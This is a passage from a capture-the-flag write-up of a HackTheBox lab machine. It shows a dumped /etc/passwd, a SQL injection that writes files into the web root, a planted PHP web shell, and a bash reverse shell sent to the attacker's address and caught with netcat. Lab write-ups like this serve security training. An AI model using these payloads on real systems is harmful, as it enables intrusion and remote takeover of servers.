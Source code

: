 ```html
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:104:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:105:106::/nonexistent:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
</li>
```
So we can enumerate root as the only user with a bash shell. Anyway, we observe the user www-data, so we can try to upload a file with `country=' UNION select "test" into dumpfile '/var/www/html/test.txt' ;-- -`. 
Which returns an error, but still get's the job done:
```bash
❯ curl http://10.10.11.116/test.txt
test
```

## User shell
Now that the have LFI granted on the machine, we can upload a web shell on php as:
```php
system($_GET['cmd']);
```
So the payload would be `country=' UNION select "<?php system($_GET['cmd']); ?>" into dumpfile '/var/www/html/terminal.php' ;-- -`. Which let us use the web shell as:
```bash
❯ curl "http://10.10.11.116/terminal.php?cmd=whoami"
www-data
```
As we saw in the `/etc/passwd`, there is no other user we can achieve in the machine, so the only thing we can do is establish a reverse shell.
```bash
❯ curl "http://10.10.11.116/terminal.php?cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.10.16.2/3333%200>%261'"
# In other terminal
❯ nc -nlvp 3333
Connection from 10.10.11.116:52128
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ 
```
We successfully established a reverse shell. When accessing to `/home` we find a home folder `htb` which contains the user flag.
